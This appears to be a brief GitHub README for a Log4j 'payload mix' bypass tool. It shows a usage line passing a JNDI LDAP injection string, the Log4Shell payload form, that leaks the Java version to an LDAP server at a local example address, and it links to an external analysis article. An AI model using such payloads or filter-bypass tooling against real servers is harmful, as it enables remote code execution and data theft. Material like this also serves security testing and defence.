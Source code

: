 # log4jbypass
log4j payload mix

## useage
python log4j_bypass.py '${jndi:ldap://127.0.0.1:1389/${sys:java.version}}'
![image](https://user-images.githubusercontent.com/38160485/145961939-0d8f7c3b-485f-48e4-8d46-7fe84d02a1f4.png)

##解析
https://mp.weixin.qq.com/s/mExv1BWxZoYgFkmu0akQcg

